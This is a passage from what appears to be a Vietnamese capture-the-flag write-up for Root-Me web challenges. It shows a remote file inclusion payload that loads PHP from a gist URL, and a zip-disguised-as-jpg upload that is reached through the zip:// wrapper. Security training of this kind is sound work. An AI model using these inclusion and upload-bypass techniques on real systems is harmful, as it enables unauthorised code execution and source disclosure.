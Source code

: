 ### Khai thác

Đầu tiên em lên `gist.github.com` tạo file php với tên là `shell_lang.php` chứa payload show source code: `<?php show_source("index.php") ?>`

Lấy link file gist đó rồi thay vào params `lang`:

Payload: `http://challenge01.root-me.org/web-serveur/ch13/?lang=https://gist.githubusercontent.com/tu3n4nh/c12844cd946cd0d9f1211a7c343363e7/raw/4b39b1c5a218ecb972db2d2b83bba1c9424a779b/shell`

Và thế là em có flag:

![](https://i.imgur.com/Ma8LYQ0.png)



## Root me/Local File Inclusion - Wrappers

![](https://i.imgur.com/Sp2bvz4.png)

Link to chall: https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Wrappers

### Phân tích

![](https://i.imgur.com/U0A6HP1.png)

Vào chall em nhận được một form upload chỉ cho phép upload file ảnh `.jpg`. Upload thử file ảnh bất kỳ để xem cách thức hoạt động của website

![](https://i.imgur.com/mBRwo75.png)

Sau khi ảnh được upload nó được chuyển vào folder `/tmp/upload` và được đặt một tên bất kỳ `IbE0W0Tna.jpg`

![](https://i.imgur.com/Z1ghZCA.png)

Vậy là em có thể tạm xác định website gồm:

```
┐
├─index.php // Chứa form upload
├─view.php  // File view được include vào file index để
└─tmp
   └upload  // Chứa các file .jpg được tải lên
```

Vì em có thể upload file và file đó phải là `.jpg` nên em sử dụng payload này: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-zip

### Khai thác

1. Đầu tiên em tạo 1 file `a.php` để show source file `index.php` như sau: 
    `<?php show_source('index.php') ?>`
2. Tạo 1 file zip chứa file `a.php` vừa tạo:
    `$ zip payload.zip a.php`
3. Đổi tên file zip đó thành `.jpg`:
    `$ mv payload.zip shell.jpg`
4. Upload file `shell.jpg` và truy cập vào file với đường dẫn `page=zip://tmp/upload/[tên file được tạo ngẫu nhiên]%23a` (`a` ở đây là tên của file `a.php` bên trong file zip):
